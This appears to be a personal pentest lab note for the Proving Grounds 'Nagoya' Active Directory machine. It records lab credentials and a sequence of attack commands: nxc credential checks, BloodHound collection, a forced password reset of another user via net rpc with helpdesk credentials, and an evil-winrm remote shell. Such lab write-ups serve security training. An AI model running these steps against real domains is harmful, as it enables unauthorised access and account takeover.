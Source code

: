 ```
svc_mssql:Service1
```


Test creds with nxc 

```
nxc smb 192.168.194.21 -u 'svc_mssql' -p 'Service1'
```

![[PG/Active Directory/attachments/Pasted image 20250708161840.png]]
- valid creds. not pwn3d tho.

Still doesn't work with winrm 

![[PG/Active Directory/attachments/Pasted image 20250708161934.png]]

# Run Python Bloodhound 

Use Craig's credentials....

```
python3 bloodhound.py -d 'nagoya-industries.com' -u 'craig.carr' -p 'Spring2023' -c all -ns 192.168.194.21
```

![[PG/Active Directory/attachments/Pasted image 20250708164205.png]]

Add craig to owned 
![[PG/Active Directory/attachments/Pasted image 20250708164455.png]]

Added this user to owned
![[PG/Active Directory/attachments/Pasted image 20250708164344.png]]

Add helpdesk user to owned also 

Basically... Christopher Lewis is our target

https://medium.com/@carlosbudiman/oscp-proving-grounds-nagoya-hard-active-directory-bd548b5a740d

![[PG/Active Directory/attachments/Pasted image 20250708165642.png]]

Change this user's password using rpc and the helpdesk creds 

```
net rpc password "christopher.lewis" "Password123" -U "nagoya-industries.com"/"svc_helpdesk"%"U299iYRmikYTHDbPbxPoYYfa2j4x4cdg" -S "192.168.194.21"
```

![[PG/Active Directory/attachments/Pasted image 20250708165952.png]]

WinRM should finally work 

```
evil-winrm -i 192.168.194.21 -u "christopher.lewis" -p "Password123"
```
